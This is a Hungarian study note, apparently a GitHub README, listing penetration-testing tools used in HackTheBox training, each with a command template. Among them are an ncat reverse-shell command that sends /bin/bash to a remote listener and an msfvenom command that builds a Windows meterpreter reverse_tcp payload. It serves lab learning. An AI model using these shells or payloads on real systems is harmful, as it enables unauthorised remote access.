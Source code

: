 A HTB-s tanulmányaim során már számos eszközt kipróbáltam, és a jövőben még sok újat fogok megismerni. Az alábbiakban látható egy lista az eszközökről, majd mindegyiket részletesen kifejtem, példákkal és hasznos parancssablonokkal kiegészítve.

---

### Eszközlista

**Nmap** – portszkennelés és szolgáltatások feltérképezése, a hálózat feltérképezésének alapvető eszköze.   
**Ncat** – hálózati kommunikáció és reverse shell létrehozása; segít a távoli rendszerekhez való csatlakozásban.  
**John the Ripper** – jelszavak hash-elt formájának feltörése, különösen szólisták és hash fájlok vizsgálatára.  
**Hashcat** – GPU-gyorsított jelszófeltörés, nagyobb hash fájlok és komplex jelszavak bruteforce-hoz.  
**Gobuster** – webes könyvtárak, fájlok bruteforce keresése, webalkalmazások feltérképezése.  
**ZAP** – webes sebezhetőségvizsgálat, fuzzer és proxy eszköz, a biztonsági tesztelés automatizálásához.  
**Burp Suite** – webalkalmazások biztonsági tesztelése, HTTP requestek manipulálása, scanner futtatása.  
**Whois** – domain információk lekérdezése, tulajdonos, regisztrátor és lejárati adatok.  
**Dig** – DNS lekérdezések és hibakeresés, gyorsan ellenőrzi a DNS bejegyzéseket.  
**Dnsenum** – DNS enumeráció és domain felderítés, aldomain-ek és névfeloldások vizsgálata.  
**Curl** – HTTP/HTTPS kérések tesztelése, API hívások ellenőrzése, adatlekérés parancssorból.  
**Smbclient** – SMB/CIFS hálózati megosztások kezelése, fájlok feltöltése és letöltése hálózaton keresztül.  
**Snmpwalk** – SNMP információgyűjtés hálózati eszközökről, konfigurációk és eszközadatok feltérképezéséhez.  
**Onesixtyone** – SNMP brute-force támadások, a community stringek feltörésére.  
**Metasploit Framework (msf)** – exploitok futtatása és pentesting keretrendszer, nagy teljesítményű automatizált támadásokhoz.  
**Msfvenom** – payload generálás és exploit előkészítés, különböző platformokra és protokollokra.

---

### Rövid kifejtés és hasznos parancssablonok

**Nmap**  
Az Nmap a hálózatok feltérképezésének alapja. Segítségével gyorsan megtudhatjuk, mely portok vannak nyitva, milyen szolgáltatások futnak rajtuk, és milyen verziójú szoftverek futnak a célgépen.  
Alap szkennelés:

```bash
nmap -sC -sV -oN scan.txt 10.10.10.10
```

Tippek: használható gyors szkennelésre, verziófelismerésre és akár operációs rendszer detektálásra is.

**Ncat**  
Az Ncat lehetővé teszi a hálózati kommunikációt és a reverse shell létrehozását, ami hasznos penetrációs tesztek során, amikor távoli hozzáférést akarunk tesztelni.  
Reverse shell létrehozása (listener oldalon):

```bash
ncat -lvnp 4444
```

Kapcsolódás távoli gépre:

```bash
ncat target_ip 4444 -e /bin/bash
```

Tippek: a Ncat könnyen kombinálható más eszközökkel a hálózati tesztelés során.

**John the Ripper**  
John a jelszóhash-ek feltörésére specializálódott. Többféle hash formátumot támogat, és szólisták alapján próbálja visszafejteni a jelszavakat.  
Hash feltörés:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tippek: kombinálható más jelszólistákkal és hash formátumokkal, gyors eredményt ad kis hash fájlok esetén.

**Hashcat**  
Hashcat a GPU-gyorsításnak köszönhetően nagyobb hash állományokat képes hatékonyan brute-force módszerrel feltörni.  
GPU-gyorsított brute-force:

```bash
hashcat -m 0 -a 0 hash.txt rockyou.txt
```

Tippek: ideális komplex hash-ekhez, konfigurálható támadási módokkal és szabályokkal.

**Gobuster**  
Gobuster segítségével webes könyvtárakat és fájlokat kereshetünk bruteforce módszerrel. Hasznos, ha a webalkalmazás struktúráját akarjuk feltérképezni.  
Webes könyvtárak feltérképezése:

```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Tippek: kombinálható különböző szólistákkal és HTTP státuszkód szűrésekkel.

**ZAP**  
A ZAP (OWASP Zed Attack Proxy) lehetővé teszi webes sebezhetőségek feltérképezését, proxyzását, és automatikus fuzzing-et a tesztelendő alkalmazásoknál.  
Tippek: automatikus scanner futtatása és egyéni fuzzer konfigurálása a gyakorlatban nagyon hasznos.

**Burp Suite**  
Burp Suite egy profi webalkalmazás-tesztelő eszköz, ami lehetővé teszi az HTTP kérések manipulálását, a sebezhetőségek keresését, és automatizált szkennelést.  
Tippek: az intercept módban módosíthatjuk a kéréseket, és a repeater funkcióval tesztelhetjük az exploitokat.

**Whois / Dig / Dnsenum**  
Ezek az eszközök a domain-ek és DNS bejegyzések vizsgálatára szolgálnak. Segítségükkel információt szerezhetünk a cél domain-ről és aldomain-jeiről.

```bash
whois example.com
dig example.com A
dnsenum example.com
```

Tippek: hasznos az információszerzés (reconnaissance) fázisban a webalkalmazások feltérképezéséhez.

**Curl**  
A Curl lehetővé teszi HTTP/HTTPS kérések tesztelését parancssorból, ideális API-k és weboldalak gyors ellenőrzésére.  
HTTP request:

```bash
curl -X GET http://10.10.10.10/page
```

Tippek: könnyen integrálható script-ekbe és automatizált tesztekbe.

**Smbclient**  
SMB megosztások eléréséhez és fájlok kezeléséhez használható. Ideális Windows-alapú hálózatok feltérképezésére.

```bash
smbclient //10.10.10.10/share -U username
```

Tippek: fájlok letöltésére, feltöltésére, valamint hozzáférések tesztelésére is használható.

**Snmpwalk / Onesixtyone**  
SNMP segítségével hálózati eszközökről szerezhetünk információkat. Onesixtyone lehetővé teszi a brute-force támadásokat, ha a community string nem ismert.

```bash
snmpwalk -v2c -c public 10.10.10.10
onesixtyone -c community_list.txt 10.10.10.0/24
```

Tippek: hasznos a hálózati infrastruktúra feltérképezésére és gyenge SNMP beállítások felfedezésére.

**Metasploit (msf / msfvenom)**  
A Metasploit egy hatékony keretrendszer exploitok futtatására, különböző platformokon. Msfvenom segítségével payloadokat generálhatunk a célrendszerekhez.  
Exploit futtatása:

```bash
msfconsole
```

Payload generálás:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```

Tippek: a Metasploit moduljai lehetővé teszik gyors tesztelést, míg a msfvenom segítségével egyedi payloadokat készíthetünk.

---

Ez a lista természetesen nem teljes, hiszen a HTB tanulmányaim során folyamatosan új eszközöket és technikákat ismerek meg. Ugyanakkor jó alapot ad az eddig megszerzett tudás áttekintéséhez, és segít a további gyakorlásban.

---

